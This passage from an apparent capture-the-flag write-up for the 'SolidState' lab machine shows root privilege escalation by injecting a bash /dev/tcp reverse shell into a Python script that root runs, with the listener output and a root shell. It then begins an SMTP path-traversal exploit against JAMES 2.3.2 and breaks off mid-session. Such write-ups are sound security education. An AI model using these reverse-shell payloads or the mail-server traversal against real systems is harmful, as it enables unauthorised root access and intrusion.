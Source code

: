 

root is running this file.

### Exploit

I'll modify the file to add a reverse shell into it:



    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
    os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')



This last line should initiate a shell back to me once root runs it. At
the next turn of three minutes, I get a connection:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49594.
    bash: cannot set terminal process group (1170): Inappropriate ioctl for device
    bash: no job control in this shell
    root@solidstate:~# id
    uid=0(root) gid=0(root) groups=0(root)



And can grab `root.txt`:



    root@solidstate:~# cat root.txt 
    b4c9723a************************



## Beyond Root

### Curious Case of /dev/tcp

Originally the first reverse shell payload I tried was
`bash -i >& /dev/tcp/10.10.14.47/443 0>&1`. I set it manually:



    root@kali# telnet 10.10.10.51 25
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 23:28:35 -0400 (EDT)
    EHLO 0xdf
    250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
    250-PIPELINING
    250 ENHANCEDSTATUSCODES
    MAIL FROM: <'0xdf@10.10.14.47>
    250 2.1.0 Sender <'0xdf@10.10.14.47> OK
    RCPT TO: <../../../../../../../../etc/bash_completion.d>
    250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
    DATA
    354 Ok Send data ending with <CRLF>.<CRLF>
    FROM: 0xdf@10.10.14.47
